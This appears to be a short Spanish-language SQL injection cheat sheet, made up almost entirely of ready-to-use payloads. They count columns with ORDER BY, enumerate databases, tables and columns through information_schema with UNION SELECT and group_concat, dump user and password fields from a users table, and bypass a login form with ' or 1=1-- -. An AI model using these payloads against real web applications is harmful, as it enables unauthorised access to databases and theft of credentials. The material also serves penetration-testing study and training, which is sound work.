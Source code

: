 # SQL Injection

Ver numero de columnas

```
' ORDER BY 1 -- -
```

Introducir información una vez sabemos el numero de columnas que hay:

<pre><code>' union select 1,2-- -

' union select schema_name from information_schema.schemata limit 0,1 -- - 
  // listar todas las bases de datos existentes {con limit van mostrando las bases de datos 0,1 1º 1,1 2º y asi sucesivamente}
<strong>
</strong><strong>' union select group_concat(schema_name) from information_schema.schemata -- - 
</strong>  // listar todas las bases de datos en una linea

' union select group_concat(table_name) from information_schema.tables where table_schema='table'-- - 
// ver tablas de la base de datos

' union select group_concat(column_name) from information_schema.columns where table_schema='table' and table_name='table' limit 0,1-- -
// ver columnas de la tabla

union select group_concat(user,password) from users-- -
//Ver informacion de las columnas
</code></pre>

Validar en un formulario

```
' or 1=1-- -
```
